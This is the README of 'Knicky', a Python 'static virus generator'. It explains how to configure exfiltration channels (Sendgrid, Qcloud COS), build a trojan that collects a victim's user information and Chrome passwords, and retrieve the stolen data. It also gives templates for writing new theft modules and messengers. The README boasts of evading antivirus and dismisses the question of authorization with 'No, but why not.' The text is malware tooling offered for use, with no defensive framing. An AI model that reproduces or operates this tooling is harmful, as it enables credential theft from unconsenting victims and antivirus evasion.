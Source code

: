 # Knicky
 ![](https://travis-ci.org/shouc/knicky.svg?branch=master)
 ![](https://camo.githubusercontent.com/4a42460f88f172b10e916fec11857648a8a2f2c8/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f706c6174666f726d2d6f73782532466c696e757825324677696e646f77732d677265656e2e737667)
 ![](https://camo.githubusercontent.com/352488c0cbba0e8f6da11ae0761444dd0c93489c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f707974686f6e2d322e372d626c75652e737667)

Yet another module-based static virus generator 


## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side using legitimate third-party services (Sendgrid, AWS, Qcloud, etc.).  
 ![How it works](pics/howitworks.png)

**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using. And you can also use it in DMZ!  

**Am I authorized to hack others' computer?**  
No, but why not.


## Definition
You should know these conventions to understand following content
* Module - components that are used to return critical information
* Messenger - components that are used to communicate with you and the hacked machine
* Project - each specific virus created

## Installation
Please use Python 2.7ish!
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

#### 1. Initialize the Module

##### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

##### Using Qcloud COS (腾讯云储存)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

#### 2. Have an Overview on Components
See all information about Messenger (components that are used to communicate with you and the hacked machine)
```
$  python cli.py getSendInfo
```
See all information about Module (components that are used to return critical information)
```
$  python cli.py getModuleInfo
```
#### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
#### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```


## Develop Module

Modules are located at `/module` folder and ends with `.py`.

A module's code should include two functions and several constant:

```python
__sys__ = ["Windows"] # Specify the platform supported
__name__ = "chromeCookies" # Specify the name of messenger
__desc__ = "Retrieve all Cookies of Google Chrome" # Specify the description of messenger


def send():
    """
    Generate the information that is sent to attacker's computer
    This is executed on client side
    :return: plain content need to send to attacker's computer
    """
    pass

```
Make sure to put all import statement in `send()` to make the virus more concise and efficient.

## Develop Messenger

Messengers are located at `/messenger` folder and ends with `.uninit`.

A messenger's code should include two functions and several constant:

```python
__sys__ = ["Windows", "Darwin", "Linux"] # Specify the platform supported
__name__ = "AWS" # Specify the name of messenger
__desc__ = "Use AWS" # Specify the description of messenger


def send(_content, _module, _projName):
    """
    How the information is sent to attacker's computer (e.g. sending email)
    This is executed on client side
    _content: the content need to send
    _module: the module that created this content
    _projName: the name of this project
    """
    pass

def receive(_range, _projName):
    """
    How the information is received by attacker's computer (e.g. receiving email)
    This is executed on attacker side
    _range: the amount of record attacker needs
    _projName: the name of this project
    :return: [{'_content': the content received
              '_projName': the name of this project
              '_byModule': the module created this content
              '_from': [Optional] the user identifier of this content (e.g. username of computer)
              '_id': [Optional] the identifier of this content
              '_date': the time},]
    """
    pass
```
Make sure to put all import statement in `send()` / `receive()` to make the virus more concise and efficient.

As different user has different credential for messenger (e.g. different API key for sendgrid), you can specify a configuration in `/config.py` and use `"!@knicky.xxxx@!"` to replace the original credential so that update function could understand.

For example,

```python
# config.py
class xxxUpdate(updateBase):
    def __init__(self, xxAPIKey="xxx", yyAPIKey="yyy", bypass=False):
        updateBase.__init__(self)
        updateBase.stop(self)
        self.bypass = bypass
        self.fileName = "messenger/xxx.uninit"
        self.updateList = [
            {"xxAPIKey": "secretID", "after": xxAPIKey, "desc": ""},
            {"yyAPIKey": "secretID", "after": yyAPIKey, "desc": ""},
        ]
```

Then, all `"!@knicky.xxAPIKey@!"` and `"!@knicky.yyAPIKey@!"` are replaced to what user specified in CLI.